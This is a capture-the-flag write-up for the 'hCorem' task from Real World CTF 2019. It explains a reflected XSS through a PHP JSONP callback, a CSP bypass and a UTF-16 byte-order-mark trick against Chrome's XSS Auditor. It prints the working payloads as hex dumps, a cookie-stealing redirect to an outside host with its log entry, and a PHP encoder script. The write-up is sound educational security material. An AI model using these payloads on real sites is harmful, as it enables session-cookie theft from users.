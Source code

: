 # hCorem - Real World CTF 2019 Quals

## Introduction

hCorem is a web task. The goal is to exploit a vulnerable script to inject an
XSS and retrieve the cookie of an up-to-date browser (Chrome v77.0.3865.75)

An archive containing the files required to build a Docker container of the task
is provided. It contains the following files:

```
.
├── docker-compose.yaml
├── dockerfile-php
├── hcorem.conf
├── html
│   ├── api.php
│   ├── hcorem.js
│   └── index.html
└── nginx.conf
```


## Source code analysis

The source code contains 3 files. The code is straightforward, and it is
relatively easy to find the vulnerability:

```php
<?php
function response(array $data = [], bool $success = true, string $message = ""): void
{
    $callback = $_REQUEST['callback'] ?? null;
    $_data = ['success' => $success, 'message' => $message, 'data' => $data];
    if ($callback) {
        echo sprintf("%s(%s)", $callback, json_encode($_data));
    } else {
        echo json_encode($_data);
    }
}

switch ($_SERVER['PATH_INFO']) {
    case '/qwq':
        response([
            'title' => 'uwu',
        ]);
        break;
    default:
        header(sprintf("%s 404 Not Found", $_SERVER['SERVER_PROTOCOL']));
        die('api not found.');
}
```

Accessing the page `/api.php/qwq?callback=foobar` will print `foobar({...})`,
resulting in a XSS vulnerability.


## Security protections

The vulnerability identified is the most basic case of a reflected XSS. However,
the web server is configured to send the following security headers:

- `X-XSS-Protection`
- `Content-Security-Policy`
- `X-Frame-Options`
- `X-Content-Type-Options`
- `Referrer-Policy`

The two first headers prevent the XSS from being exploited.


### Content-Security-Policy

The Content-Security-Policy (CSP) header is set to:
`default-src 'self'; object-src 'none'; base-uri 'none';`

This means that resources can only be loaded from the same domain (`self`),
except for objects that cannot be loaded at all.

The bypass for CSP is to include the API again. The following payload will show
an alert box on Firefox (where the second protection is not present):
```html
<script src="/api.php/qwq?callback=alert(1)//"></script>
```


### X-XSS-Protection

The X-XSS-Protection header is set to: `1; mode=block`

This informs Chrome to enable XSS Auditor, in blocking mode.

XSS Auditor is a feature that prevents reflected XSS attacks: if `<script>...`
is present both in the GET/POST variables and in the body, the browser will
identify the request as exploiting a reflected XSS and will block the page.

One of the ideas we had to bypass XSS Auditor was to trick the browser by
specifying a different encoding. This idea is backed by the name of the task
(`hCorem` which is `Chrome` spelled in middle endian)

It is possible to change the encoding of a page to UTF-8, UTF-16BE or UTF16-LE
by putting a Byte Order Mark (BOM) before the document:
- 0xEF 0xBB 0xBF for UTF-8
- 0xFE 0xFF for UTF-16BE
- 0xFF 0xFE for UTF-16LE

([Source: Encoding, Living Standard §6. Hooks for standards](https://encoding.spec.whatwg.org/#specification-hooks))


The following payload (not URL-encoded for readability) bypasses XSS auditor and
triggers an alert:
```
00000000: ff fe 31 00 3c 00 73 00 63 00 72 00 69 00 70 00  ..1.<.s.c.r.i.p.
00000010: 74 00 3e 00 61 00 6c 00 65 00 72 00 74 00 28 00  t.>.a.l.e.r.t.(.
00000020: 31 00 29 00 3c 00 2f 00 73 00 63 00 72 00 69 00  1.).<./.s.c.r.i.
00000030: 70 00 74 00 3e 00                                p.t.>.
```


### Combining both

By combining the bypasses found in the two previous sections, it is possible to
execute JavaScript code on the challenge's website:
```
00000000: ff fe 31 00 3c 00 73 00 63 00 72 00 69 00 70 00  ..1.<.s.c.r.i.p.
00000010: 74 00 20 00 73 00 72 00 63 00 3d 00 27 00 2f 00  t. .s.r.c.=.'./.
00000020: 61 00 70 00 69 00 2e 00 70 00 68 00 70 00 2f 00  a.p.i...p.h.p./.
00000030: 71 00 77 00 71 00 3f 00 63 00 61 00 6c 00 6c 00  q.w.q.?.c.a.l.l.
00000040: 62 00 61 00 63 00 6b 00 3d 00 61 00 6c 00 65 00  b.a.c.k.=.a.l.e.
00000050: 72 00 74 00 25 00 32 00 38 00 31 00 25 00 32 00  r.t.%.2.8.1.%.2.
00000060: 39 00 25 00 32 00 46 00 25 00 32 00 46 00 27 00  9.%.2.F.%.2.F.'.
00000070: 3e 00 3c 00 2f 00 73 00 63 00 72 00 69 00 70 00  >.<./.s.c.r.i.p.
00000080: 74 00 3e 00                                      t.>.
```


## Retrieving the cookies

The goal of this task is to retrieve the cookie of an headless browser.

The easiest way to retrieve them is to redirect the browser with
`document.location.href`. Unlike AJAX calls, this redirection is not subject to
CSP.

The payload used to steal cookies is the following:
```js
document.location.href = "https://xer.forgotten-legends.org/" + document.cookie//
```

While being very simple, it is very effective. As soon as the bot executes the
script, it sends a request to a server where the cookie can be found in the
logs:
```
52.8.91.113 - - [16/Sep/2019:01:04:08 +0200] "GET /flag=rwctf%7BJAME_TIME_FOR_THE_FINAL._.?} HTTP/2.0" 404 170 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3865.75 Safari/537.36"
```

**Flag**: `rwctf{JAME_TIME_FOR_THE_FINAL._.?}`


## Appendices
### encode.php
The following script has been used to generate an URL-encoded payload:
```php
<?php
$script  = 'document.location.href = "https://xer.forgotten-legends.org/" + document.cookie//';
$payload = sprintf("<script src='/api.php/qwq?callback=%s'></script>", rawurlencode($script));

$buffer = "\xFF\xFE1";

for($i = 0; $i < strlen($payload); $i++)
	$buffer .= "\x00" . $payload[$i];

echo rawurlencode($buffer . "\x00");
```
